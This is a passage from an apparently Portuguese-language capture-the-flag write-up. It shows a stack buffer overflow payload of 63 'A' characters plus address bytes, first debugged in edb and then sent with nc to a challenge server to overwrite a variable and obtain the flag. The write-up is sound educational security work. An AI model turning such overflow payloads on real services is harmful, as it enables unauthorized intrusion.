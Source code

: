 e pude ver que é incluído um '0xc2' logo após os A's, que imagino que sejam colocados pela função gets, o 0xc2 acupa mais de um byte de char, então o que fiz foi remover um dos A's enviados, dessa forma logo após finalizar a string de 63 A's, o 0xc2 seria colocado na posição 64 e o valor do endereço ficaria correto

```
$  python3 -c "print('A' * 63 + '\x89\x68\x45')" | edb --run ./bof2
```

![descrição do segundo desafio de pwn](./images/bof2_registers2.png)

e agora que o valor está correto ele passa na comparação e retorna a flag

```
$python3 -c "print('A' * 63 + '\x89\x68\x45')" | nc projetorsi.com.br 9002
R$1{~FLAG~}
Bem-vindo ao segundo desafio de PWN, estude buffer overflow!

Parabéns você modificou a variavel x!
```

### **BOF + Redirect**

![descrição do terceiro desafio de pwn](./images/bof_redirect.png)

